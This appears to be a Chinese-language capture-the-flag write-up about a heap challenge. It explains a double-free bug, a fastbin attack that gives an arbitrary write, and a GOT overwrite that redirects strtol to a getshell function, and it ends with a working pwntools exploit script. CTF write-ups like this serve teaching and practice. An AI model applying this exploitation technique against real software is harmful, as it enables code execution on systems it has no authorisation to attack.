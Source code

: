 ## 0x01 题目信息

程序提供了两个功能：add和delete。

- add功能：允许创建11个chunk，scanf输入number和size，保存&malloc到bss，并且read 长度为size的content到chunk中。
- delete功能：输入chunk number 0-11，free保存在bss上的指针后退出。指针没有置null！
- 程序还提供了没有被调用的getshell函数。

![image-20181130194450704](./img/image-20181130194450704.png)

![image-20181130194539638](./img/image-20181130194539638.png)

![image-20181201011528512](./img/image-20181201011528512.png)



由于指针没有置null，存在double free漏洞。利用思路：fastbin attack劫持got到getshell函数。

## 0x02 fastbin attack

fastbin的double free流程很简单：

1. 创建chunk1 chunk2
2. free 1 free2 free1 形成圈环
3. malloc获得chunk1，修改fd指向fake_fastbin_chunk（size的idx需一致），malloc两次获取chunk2 chunk1
4. 此时fastbinxY[idx]中即是fake_fastbin_chunk，继续malloc获得指针：fake_fastbin_chunk+0x10，实现arbitray write！

fastbin attack实现arbitray write的条件在于double free形成圈环和寻找到一个idx相同的size。后者比较困难。展开阐述一下。

调试时，发现fastbin attack的size是32位的。因此，需要在写地址的附近找到一个32位的size，就可以伪造fake_fastbin_chunk = &size-8。（截图仅供参考，这里chunk size是0x81，所以idx为6，后续利用时，chunk size是0x41，idx为2）![image-20181130214034367](./img/image-20181130214034367.png)

具体到这题看一下，尝试劫持GOT，在GOT中寻找可用的size，0x20-0x87的4byte size都可以用。同时为了不影响程序的正常执行流程，不能修改劫持GOT之前会用到的函数。在fastbin attack（add中的malloc函数执行完）后，会调用的函数是add中malloc后的puts，返回while循环后get_content中的fread和getchoice中的strtol，add中的printf，scanf，malloc….通过下面对size的分析，attack后最早可以在strtol调用时，就getshell。

- .dynamic处 0x602002的size为0x60，attack后从0x60200a处开始写，会修改link_map和dlresolve的地址，system函数还没有动态解析，肯定不能用这里。
- 0x602032处后续是setbuf和system，attack后从0x60203a开始写，这里可以用，但是需要恢复system GOT为system@plt+6，方便后续动态解析system地址并调用
- 0x602042处后续是alarm，__libc_start_main，strtol，malloc，这里也可以用。

![image-20181130214453553](./img/image-20181130214453553.png)

![image-20181130214627975](./img/image-20181130214627975.png)



看sunichi@dubhe的exploit，fastbin的chunk利用了0x0000007f，该地址依赖于alarm在libc中的低地址是\x00，因此可以构造fake的4byte size（低位0xf在chunk SIZE中是标记位，chunksize返回时回清空）。

![image-20181201000139079](./img/image-20181201000139079.png)



## 0x03 exploit

```python
def pwn(io):
    # if local&debug: gdb.attach(io,'break *0x400d1b\n directory /root/Pwn/glibc/glibc-2.23/malloc/')

    size = 0x38
    add(0, size, "thinkycx" )
    add(1, size, "thinkycx" )
    add(2, size, "thinkycx")

    delete(0)
    delete(1)
    delete(0)
    log.info("fastbin circle has finished!")

    write_addr = 0x602030 + 2 -0x8 # bypass fastbin size check
    # write_addr = 0x602040 + 2 -0x8 # bypass fastbin size check
    # if local&debug: gdb.attach(io,'break *0x400d1b\n directory /root/Pwn/glibc/glibc-2.23/malloc/')
    add(3, size, p64(write_addr) )
    add(4, size, "thinkycx")
    add(5, size, "thinkycx" ) # next fasbins will be write_addr

    getshell = 0x400946
    # if write_addr is 0x602030 + 2 - 0x8
    # payload = "\x00"*6 + p64(elf.plt['system']+6) + p64(elf.plt['printf']) + p64(getshell)*4
    payload = "\x00"*6 + p64(elf.plt['system']+6) +  p64(getshell)*4

    # if write_addr is 0x602040 + 2 - 0x8
    # payload = "\x00"*6 + p64(getshell)*3 # strtol
    # if local&debug: gdb.attach(io,'break *0x400d1b\n directory /root/Pwn/glibc/glibc-2.23/malloc/')
    add(7, size, payload) # when comes to getchoice() strol(), call getshell, system@plt+6
    # add(8, 0x100, "getshell!")
```

